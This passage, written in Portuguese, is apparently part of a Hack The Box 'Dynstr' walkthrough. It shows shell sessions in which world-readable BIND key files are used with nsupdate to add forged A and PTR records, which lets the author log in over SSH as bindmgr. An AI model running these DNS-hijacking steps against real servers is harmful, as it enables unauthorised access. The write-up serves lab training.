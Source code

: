   ```bash
  www-data@dynstr:/dev/shm$ cat nsupdate
  server 127.0.0.1
  zone dyna.htb
  update delete attacker.infra.dyna.htb
  update add attacker.infra.dyna.htb 30 IN A 10.10.10.10
  send
  www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key
  update failed: REFUSED
  ```

  Após alguma pesquisa, encontrei que o status REFUSED poderia ocorrer se utilizasse uma chave inválida e, validando o diretório onde a chave `ddns.key` está localizada, encontrei outros dois arquivos (conforme abaixo) que poderiam ser utilizados, para o qual o `infra.key` retornou o sucesso esperado, embora ainda não tenha conseguido me conectar via SSH

  ```bash
  www-data@dynstr:/dev/shm$ ls -la /etc/bind/*.key
  -rw-r--r-- 1 root bind 100 Mar 15 20:44 /etc/bind/ddns.key
  -rw-r--r-- 1 root bind 101 Mar 15 20:44 /etc/bind/infra.key
  -rw-r----- 1 bind bind 100 Mar 15 20:14 /etc/bind/rndc.key
  ```

  Com algum troubleshooting adicional notei que a partir do servidor DNS era capaz de resolver o nome `attacker.infra.dyna.htb` mas a busca a reversa, a partir do endereço IP não era possível. Para contornar isso, incluí no comando de `nsupdate` as instruções necessárias para também incluir o registro do tipo PTR no DNS. Um ponto crucial que tive que fazer troubleshoot foi que entre as entradas A e PTR **deve existir uma linha em branco**, caso contrário o update falhará.

  ```bash
  www-data@dynstr:/dev/shm$ cat nsupdate
  server 127.0.0.1
  update add attacker.infra.dyna.htb 30 A 10.10.10.10
  send
  
  update add 121.14.10.10.in-addr.arpa 30 PTR attacker.infra.dyna.htb
  send
  www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/infra.key
  www-data@dynstr:/dev/shm$
  ```

  Após os devidos ajustes, fui capaz de me conectar com a conta `bindmgr` via SSH e ler o conteúdo do arquivo `user.txt`

  ```bash
  bindmgr@dynstr:~$ ls -la
  total 36
  drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 20:39 .
  drwxr-xr-x 4 root    root    4096 Mar 15 20:26 ..
  lrwxrwxrwx 1 bindmgr bindmgr    9 Mar 15 20:29 .bash_history -> /dev/null
  -rw-r--r-- 1 bindmgr bindmgr  220 Feb 25  2020 .bash_logout
  -rw-r--r-- 1 bindmgr bindmgr 3771 Feb 25  2020 .bashrc
  drwx------ 2 bindmgr bindmgr 4096 Mar 13 12:09 .cache
  -rw-r--r-- 1 bindmgr bindmgr  807 Feb 25  2020 .profile
  drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 12:09 .ssh
  drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 14:53 support-case-C62796521
  -r-------- 1 bindmgr bindmgr   33 Aug 16 15:49 user.txt
  bindmgr@dynstr:~$ cat use
  cat: use: No such file or directory
  bindmgr@dynstr:~$ cat user.txt
  <redacted>
  ```
